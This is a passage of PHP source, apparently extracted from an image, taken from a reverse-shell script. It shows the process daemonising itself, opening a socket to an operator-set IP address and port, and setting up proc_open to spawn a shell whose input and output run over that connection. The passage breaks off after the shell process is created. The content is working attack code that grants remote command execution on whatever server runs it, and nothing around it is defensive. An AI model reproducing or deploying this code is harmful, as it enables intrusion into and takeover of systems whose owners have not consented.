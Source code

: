 ```php

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

```